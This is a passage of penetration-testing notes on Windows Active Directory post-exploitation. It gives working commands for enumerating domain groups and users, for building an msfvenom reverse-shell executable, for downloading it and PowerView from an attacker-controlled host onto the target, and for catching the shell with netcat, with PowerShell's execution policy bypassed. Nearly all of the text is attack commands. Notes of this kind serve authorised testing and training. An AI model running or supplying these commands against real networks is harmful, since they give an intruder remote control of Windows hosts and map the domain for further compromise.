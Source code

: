 Check the domain groups

```powershell
net group /dom
```



### Create MSFvenom payload to stable shell

To upgrade the shell we can craft a msfvenom payload and execute it in the target machine.

{% code overflow="wrap" %}
```bash
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=$ATT_IP LPORT=$PORT -f exe -o rev.exe
```
{% endcode %}

Transfer the file to target machine

```bash
# target machine
iwr http://$ATT_IP/rev.exe -OutFile C:\Tmp\rev.exe
```

Set a listener and then run the executable

```bash
# attacker machine
nc -nvlp $PORT

# target machine
cd C:\Tmp
.\rev.exe
```

Now we have a stable shell



## AD Enumeration

### Get domain user information

```powershell
# users list
net user /dom

# user info
net user $USER /dom
```



### PowerView

```powershell
iwr http://$ATT_IP:PORT/PowerView.ps1 -OutFile C:\Users\...\pv.ps1

powershell -ep bypass
import-module .\pv.ps1
```
